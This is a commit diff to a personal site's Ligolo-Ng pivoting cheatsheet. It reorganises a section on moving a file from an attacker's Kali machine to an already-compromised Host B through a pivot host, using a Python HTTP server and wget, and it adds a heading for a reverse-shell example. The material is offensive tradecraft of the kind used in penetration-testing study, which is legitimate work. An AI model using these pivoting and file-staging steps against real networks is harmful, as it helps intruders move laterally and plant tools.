

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-10-31-Ligolo-Ng-Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 2786 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2024-10-31-Ligolo-Ng-Cheatsheet.md

````diff
--- a/_posts/2024-10-31-Ligolo-Ng-Cheatsheet.md
+++ b/_posts/2024-10-31-Ligolo-Ng-Cheatsheet.md
@@ -78,10 +78,13 @@
 # Now we are able to access the network 172.16.150.0/24
 ```
 
-## File Transfers Example - Single Pivot
-In this example we got access into the Host B 172.16.150.20 (We are inside its CLI).
-We previously set up our Pivot Host A, in this case 172.16.150.10.
-Now we want to move a file from Kali (192.168.45.200) to Host B (172.16.150.20) through our Pivot Host A (172.16.150.10):
+## File Transfers Example with Single Pivot
+In this example:
+- We got access into the Host B 172.16.150.20 (We are inside its CLI).
+- We previously set up our Pivot Host A, in this case 172.16.150.10.
+- Now we want to move a file from Kali (192.168.45.200) to Host B (172.16.150.20) through our Pivot Host A (172.16.150.10).
+
+To achieve that, we will create a new listener in our active Ligolo-Ng session:
 ```shell
 # Create new listener - Port 1236 on Kali will be the Port 9003 on the Pivot Target
 # Enter the following on the running active Kali Ligolo-Ng session
@@ -90,5 +93,6 @@
 python3 -m http.server 1236
 # From the Host B CLI, access Python server through Port 9003 at the Pivot Host
 wget http://172.16.150.10:9003/test.txt
+```
 
-# Establishing Second Pivot (Double Pivot)
+## Reverse Shell Example with Single Pivot
````
